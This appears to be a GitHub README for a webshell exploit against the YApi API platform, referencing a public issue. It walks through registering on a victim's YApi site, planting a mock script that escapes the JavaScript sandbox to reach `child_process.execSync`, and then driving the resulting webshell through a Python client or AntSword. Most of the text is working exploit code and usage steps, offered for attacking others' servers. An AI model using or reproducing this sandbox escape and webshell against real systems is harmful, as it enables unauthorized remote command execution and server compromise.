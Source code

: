 # yapi-rce-webshell
Yapi mock script RCE another version. Webshell way.

https://github.com/YMFE/yapi/issues/2099

# funny things 

usage:

1. victim yapi website
2. register account
3. craete project and create api in it
4. create mock script like 
```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("cd "+cookie.dir+";"+cookie.cmd).toString()
// you can also add exec function to do some async jobs like running enum scripts
```
5.  use python script to connect webshell and interactive

```bash
python3 webshell.py {mock address like: http://whereisthevictim/mock/222/test/test } -i # interactive mode
# or
python3 webshell.py {mock address like: http://whereisthevictim/mock/222/test/test} {cmd dir,you can use "."} {command location}
```

# AntSword Alternative

1. Same as usage
2. But Create an API With Advanced Mock POST Method.
```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync(query.data).toString()
// you can also add exec function to do some async jobs like running enum scripts
```
3. Open AntSword
4. Create with Config like
Type: CMDLINUX
Pass: data
URL: mock url in Yapi config
encoder/decoder: default
5. enjoy your webshell
